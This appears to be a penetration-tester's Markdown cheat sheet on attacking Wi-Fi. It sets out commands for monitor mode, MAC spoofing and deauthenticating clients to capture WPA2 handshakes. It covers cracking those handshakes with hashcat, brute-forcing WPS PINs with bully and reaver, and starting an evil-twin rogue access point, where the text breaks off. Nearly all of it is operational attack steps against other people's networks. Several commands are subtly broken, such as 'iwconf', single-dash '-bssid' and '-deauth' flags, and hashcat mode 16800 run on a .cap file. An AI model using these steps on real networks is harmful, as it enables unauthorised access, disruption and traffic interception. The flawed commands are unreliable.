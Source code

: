 # WiFi

## Monitor mode
Either:   
```
airmon-ng start wlan0
```

Or:  
```
ifconfig wlan0 down
iwconf wlan0 mode monitor
ifconfig wlan0 up
```


## Capture frames
`airodump-ng wlan0mon`

## Capture MAC addresses
To capture the MAC address of clients who have authenticated to the AP:  

`airodump-ng -c <channel> -a -bssid <bssid>`

Where:   
`<channel>` - The Channel that the AP is broadcasting on   
`<bssid>`   - The BSSID of the AP

## Spoof MAC address
Once a MAC address has been determined, the local MAC can be changed. First you need to take down the local adapter:

`ifconfig wlan0 down`

Then you can use `macchanger` to change the MAC address to match the one you captured:

`macchanger -m <mac> wlan0`

Finally, bring the interface back up:

`ifconfig wlan0 up`

## Attacking WPA2-PSK
WPA2-PSK is the most widely used protocol used for securing Wi-Fi, although WPA3 is starting to gain popularity.

To crack WPA2-PSK, the hash of the password must be captured and then cracked offline using a tool like `hashcat`. This passord hash can be captured by sniffing the network traffic until the client sends it to the AP, this can either be done stealthily by waiting or by forcing the client to disconnect from the AP.

The first step is to put the wireless adapter into [monitor mode](#monitor-mode) and then running:

`airodump-ng -bssid <BSSID> -c <channel> --write <file> wlan0mon`

where:   
`<BSSID>`    - The BSSID of the Target AP   
`<channel`   - The Channel the AP is transmitting on   
`<file>`     - A filename used to store the captured handshake   

### Forcing a client to reconnect
If you don't want to wait for a client to connect to capture the password hash, you can force an already connected client to disconnect from the AP. This will cause the client to reconnect, and you can quickly capture the hash:

`aireplay-ng -deauth 100 -a <BSSID> wlan0mon`

where:   
`-deauth 100` - Send 100 deauth frames to the AP   
`<BSSID>`     - The BSSID of the target AP

When the client reconnects, the four way handshake will be captured.

```
CH 11 ][ Elapsed:  3 hours 15 minutes  ][ 2023-02-05 10:27 ] [  WPA Handshake:  12:09:27:00:18:21
```

### Brute force
Now that you have the handshake, you can use a cracking program like `hashcat` to brute-force the password. This can either be done using a dictionary, or by iterating through a series of values.

`hashcat -m 16800 file.cap /user/share/dictionary/passwords.txt`



## Attacking WPS
WPS is a mechanism where a client can connect to an AP using a PIN, rather than a complex password. The PIN is made up of 8 digits, with the last digit being a checksum. With WPS 1.0, the first four are checked, and then the last 3 are checked separately. This gives 11,000 possible PINs. However with WPS 2.0, this has since been mitigated.

To get a list of APs with WPS, use `wash`:

`wash -i wlan0mon`

This will show a list like this:

|BSSID              |Ch |dBm  |WPS  |Lck  |Vendor    |ESSID                        |
|-------------------|---|-----|-----|-----|----------|-----------------------------|
|FF:FF:FF:FF:FF:FF  | 1 | -58 | 2.0 | No  | Unknown  | Business-Net                |
|FF:FF:FF:FF:FF:FF  | 1 | -54 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -24 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -48 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 2.0 | Yes | Broadcom | OfficeJet 6950              |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 2.0 | No  | Unknown  | Apathy                      |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 1.0 | No  | Unknown  | Car                         |


Using the information from `wash` and `airodump-ng`, the PIN can be crute forced using either `bully` or `reaver`

### Bully

`bully wlan0mon -b <BSSID> -e <ESSID> -c <Channel>`

where:   
`<BSSID>`    - The BSSID of the AP
`<ESSID>`    - The ESSID of the client
`<Channel>`  - The channel that the AP is transmitting on

### Reaver

`reaver -i wlan0mon -b <BSSID> -vv`

where:   
`<BSSID>`    - The BSSID of the AP

## Evil Twin (MiTM)
`airbase-ng` turns a Wi-Fi adapter into an AP, broadcasting and accepting client connection. To make this possible, two network interfaces are required.

### Creating an AP
`airbase-ng -a <BSSID> --essid <ESSID> -c <Channel> wlan0mon`

where:   
`<BSSID>`    - The BSSID of the AP
`<ESSID>`    - The ESSID of the client
`<Channel>`  - The channel that the AP is transmitting on

### Bridge the connection
To allow internet traffic to flow through the rouge AP, a second network interface needs to be configured to allow traffic to seamlessly flow to any unsuspectingly connected clients.





